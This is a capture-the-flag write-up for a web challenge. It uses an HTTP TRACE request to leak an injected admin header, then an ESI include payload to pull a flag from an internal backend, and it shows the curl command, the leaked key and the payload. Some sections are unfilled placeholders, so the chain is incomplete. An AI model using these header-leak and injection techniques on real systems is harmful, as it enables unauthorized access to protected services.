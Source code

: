 # [TaskVault](https://taskvault.fcsc.fr/) [WEB]

## Discovering

We are given a login page.

![alt text](images/taskvault_login_page.png)

We don't have an account and we can't create one since the register page is not accessible.

## Finding a way to register

We are given the projects files so we can go through them to see if we can find any clue.

TaskVault is an Express application that is served under an Apache server which is served under a Varnish server.

In the Varnish configuration, we can find two backends.

```
backend default {
  .host = "taskvault-apache2";
  .port = "8000";
}

backend flag_backend {
  .host = "taskvault-app";
  .port = "1337";
}
```

While reading the configuration file we can find these lines.

```
sub vcl_recv {
  if (req.url == "/") {
    set req.http.X-Admin-Key = "${ADMIN_KEY}";
  }

  return(pass);
}
```

Here, we learn that the Varnish server automatically adds the `X-Admin-Key` header to the request when the URL is `/`. This is required by the Express application to access the web application.

```javascript
app.use((req, res, next) => {
  const adminKey = req.headers["x-admin-key"];

  if (!adminKey || adminKey !== process.env.ADMIN_KEY) {
    return res.status(403).json({ error: "Unauthorized access" });
  }

  next();
});
```

Let's move on to the Apache configuration file.

```
<VirtualHost *:8000>
  TraceEnable on
  ProxyPass / http://taskvault-app:3000/
  ProxyPassReverse / http://taskvault-app:3000/
</VirtualHost>
```

Pretty simple but we can note something very interesting : `TraceEnable on`.

According to [the Apache documentation](https://httpd.apache.org/docs/2.4/mod/core.html#traceenable), the `TraceEnable` directive allows us to enable or disable the TRACE method.

The [TRACE method](https://developer.mozilla.org/docs/Web/HTTP/Reference/Methods/TRACE) is used for diagnostic purposes and can be exploited to perform Cross-Site Tracing (XST) attacks.

In our case, we can use it to read the `X-Admin-Key` header that is set by the Varnish server by also setting the [`Max-Forwards` header](https://developer.mozilla.org/docs/Web/HTTP/Reference/Headers/Max-Forwards) to `0` to prevent the request from being forwarded to the backend.

```bash
curl -v -X TRACE -H "Max-Forwards: 0" https://taskvault.fcsc.fr
```

```
TRACE / HTTP/1.1
host: taskvault.fcsc.fr
user-agent: curl/8.7.1
accept: */*
max-forwards: 0
X-Forwarded-For: 46.193.4.24, 51.77.135.65
Via: 1.1 taskvault-varnish (Varnish/7.6)
X-Admin-Key: 6d02ed57299292a47615254957d073cc75cc7855248684960946838c1f786081
X-Varnish: 3789235
```

We can see that we received the `X-Admin-Key` header in the response.

Now, we can use this key to access the web application.
Since I don't want to use `curl` to interact with the web application, I decided to use [Proxyman](https://proxyman.com/) to intercept the requests and automatically add the `X-Admin-Key` header by using some scripting.

![alt text](images/taskvault_proxyman.png)

We can now go to <https://taskvault.fcsc.fr/register> and create an account.

Once logged in, we can see that we have access a dashboard where we can add, update and delete personal notes.

![alt text](images/taskvault_dashboard.png)

---

## insert code concerning ESI

---

## insert code knowing that we can probably inject ESI through the EJS template

Regex strips all the following characters.

```
&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz
```

---

## remind the infrastructure to retrieve the flag

```
><esi:include src=http://give_me_the_flag/ />
```

Let's send this payload through the form.

![alt text](images/taskvault_flag_payload.png)

At first, it seems like it did nothing.

![alt text](images/taskvault_flag_nothing.png)

But if we look at the response, we can see that the payload was executed.

![alt text](images/taskvault_flag_devtools.png)

We can now copy the flag and submit the challenge !
